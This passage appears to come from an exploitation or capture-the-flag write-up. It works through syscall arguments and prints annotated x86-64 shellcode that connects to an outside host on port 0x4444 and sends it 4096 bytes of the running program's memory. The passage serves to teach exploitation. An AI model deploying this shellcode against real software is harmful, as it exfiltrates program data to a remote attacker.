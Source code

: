 Finally, the `addrlen` field is 16, since our struct is 16 bytes long, and the syscall number is 42.

Next: write. write takes 3 arguments: `int fd` (the file descriptor to write to), `const char *buf` (a pointer to the buffer to write from), and `size_t count` (how many bytes to write). `fd` is our socket, which has file descriptor 0. We'll have `const char *buf` point to the base address of our ELF file, which varies depending on how it's built. We had to play around with this value a bit, but it turned out to be 0x400000. We set `count` to 0x1000 to read 4096 bytes and set the syscall number to 1.

In summary, here are the arguments we must set for our three syscalls:

| Syscall | `eax` | `edi` | `esi`              | `edx`  |
| ------- | ----- | ----- | ------------------ | -----  |
| socket  | 41    | 2     | 1                  | 0      |
| connect | 42    | 0     | 0x24007e1244440002 | 16     |
| write   | 1     | 0     | 0x400000           | 0x1000 |


Here is our filled in, annotated shellcode:

```assembly
b8 29 00 00 00          mov    eax,  0x29  // 0x29 = 41
bf d9 ff ff ff          mov    edi,  0xffffffd9
be 03 00 00 00          mov    esi,  0x3
ba 00 00 00 00          mov    edx,  0x0
01 c7                   add    edi,  eax   // 00xffffffd9 + 0x29 = 2
29 fe                   sub    esi,  edi   // 0x3 - 1 = 1
21 f2                   and    edx,  esi   // 0 & 1 = 0
0f 05                   syscall
48 b8 02 00 44 44 12    movabs rax,  0x24007e1244440002
7e 00 24
50                      push   rax
b8 2a 00 00 00          mov    eax,  0x2a  // 0x2a = 42
ba 10 00 00 00          mov    edx,  0x10  // 0x10 = 16
bf 00 00 00 00          mov    edi,  0x0
48 89 e6                mov    rsi,  rsp   // rsi points to 02004444127e0024
0f 05                   syscall            // sets eax to 0
be 00 00 40 00          mov    esi,  0x400000
bf 00 00 00 00          mov    edi,  0x0
ba 00 10 00 00          mov    edx,  0x1000
83 c0 01                add    eax,  0x1   // 0 + 1 = 1
0f 05                   syscall
89 c6                   mov    esi,  eax   // we're not using this syscall
b8 00 00 00 00          mov    eax,  0x0
bf 00 00 00 00          mov    edi,  0x0
41 ba 00 00 00 00       mov    r10d, 0x0
0f 05                   syscall
58                      pop    rax
```

Note that `edi`, `esi`, and `edx` are manipulated by the shellcode before the first syscall, so we have to do a little math to make them end up at the right values.
